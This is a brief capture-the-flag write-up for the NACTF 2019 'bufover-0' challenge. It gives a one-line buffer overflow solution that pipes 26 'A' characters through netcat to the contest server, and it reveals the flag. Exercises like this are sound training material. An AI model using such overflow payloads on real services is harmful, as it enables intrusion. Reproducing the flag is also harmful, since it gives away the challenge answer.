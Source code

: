 #### Challenge:

The close cousin of a website for "Question marked as duplicate"

Can you cause a segfault and get the flag? `nc shell.2019.nactf.com 31475` [bufover-0](./bufover-0 ":ignore") [bufover-0.c](./bufover-0.c ":ignore")

---

#### Solution:

```bash
python -c 'print "A"*26' | nc shell.2019.nactf.com 31475
```

---

<details><summary>FLAG:</summary>

```
nactf{0v3rfl0w_th4at_buff3r_18ghKusB}
```

</details>
